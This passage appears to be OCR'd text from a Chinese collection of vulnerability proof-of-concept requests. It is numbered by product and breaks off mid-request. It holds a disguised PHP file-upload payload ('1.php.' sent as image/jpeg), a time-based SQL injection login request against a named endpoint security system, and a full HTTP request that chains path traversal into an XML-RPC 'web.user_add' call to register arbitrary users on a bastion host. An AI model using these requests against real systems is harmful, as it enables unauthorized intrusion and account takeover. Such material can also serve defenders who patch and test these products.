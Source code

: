 ------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition:form-data; name="upload_quwan"; filename="1.php."
Content-Type:image/jpeg
<?phpphpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt

### 16、某信景云终端安全管理系统 login SQL注入漏洞 POC

POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='

### 17、某恒明御运维审计与风险控制系统堡垒机任意用户注册

POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: xxx
Cookie: LANG=zh; USM=0a0e1f29d69f4b9185430328b44ad990832935dbf1b90b8769d297dd9f0eb848
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1121

<?xml version="1.0"?>
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>XX.XX.XX.XX</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>deptadmin</string>
</value>
